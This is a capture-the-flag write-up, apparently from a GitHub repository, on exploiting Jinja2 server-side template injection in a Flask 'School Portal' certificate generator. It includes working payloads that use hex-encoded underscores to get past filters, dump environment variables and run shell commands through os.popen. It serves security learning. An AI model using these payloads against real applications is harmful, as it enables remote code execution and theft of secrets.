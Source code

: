 # School Portal - Server-Side Template Injection (SSTI) Writeup

## Challenge Overview
The School Portal challenge involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a Flask web application to retrieve a flag stored as an environment variable.

## Initial Reconnaissance

### Application Analysis
Upon accessing the application, we discover a school portal system with the following features:
- User registration and authentication
- Dashboard functionality
- Certificate generation system

![Home Page](home_page.png)
*Initial landing page of the School Portal*

![Registration](registeration.png)
*User registration form*

![Dashboard](dashboard.png)
*User dashboard interface*

## Vulnerability Discovery

### Certificate Generation Feature
The application includes a certificate generation feature that appears to accept the certificate name . This is often a prime target for template injection attacks.

![Certificate Generation Form](certificate_generation.png)
*Certificate generation*

### SSTI Detection and Testing
During testing of the certificate generation functionality, we started with a basic SSTI detection payload to see if the application processes user input through a template engine.

**Initial Test Payload:** `{{7*7}}`

![Further SSTI Testing](trying_ssti.png)
*Initial Test Payload*

![Generated Certificate with SSTI Test](generated_certificate.png)
*Result of the payload - Notice the output shows "49" indicating successful template injection*

The successful execution of the mathematical expression `{{7*7}}` returning `49` confirms that the application is vulnerable to Server-Side Template Injection, likely using Jinja2 template engine based on Flask framework indicators.

## Exploitation Process

### Step 1: Environment Variable Enumeration
Since CTF flags are commonly stored as environment variables, we crafted a payload to access the application's environment:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('environ')}}
```

**Payload Breakdown:**
- `request|attr('application')` - Access the Flask application object
- `attr('\x5f\x5fglobals\x5f\x5f')` - Access global variables (encoded `__globals__`)
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` - Get builtins module
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` - Import os module
- `attr('environ')` - Access environment variables

**Note:** Hex encoding (`\x5f`) is used to bypass potential filters that might block `__` sequences.

![Environment Variables](get_env_vraiables.png)
*Environment variable enumeration results showing available environment variables*

### Step 2: Flag Extraction Optimization
The initial payload revealed environment variables but the flag output was truncated. To properly extract the complete flag, we refined our approach:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo $FLAG_00_This_real | fold -w 50')|attr('read')()}}
```

**Payload Improvements:**
- `attr('popen')('echo $FLAG_00_This_real | fold -w 50')` - Execute shell command to echo the flag
- `fold -w 50` - Format output with line breaks every 50 characters for better readability
- `attr('read')()` - Read the command output

![Flag Extraction](flag.png)
*Successfully extracted flag using the optimized SSTI payload*

## Flag
The flag was successfully extracted using the optimized SSTI payload.


## Difficulty: Easy
This challenge demonstrates the importance of secure template handling and the risks associated with Server-Side Template Injection vulnerabilities.
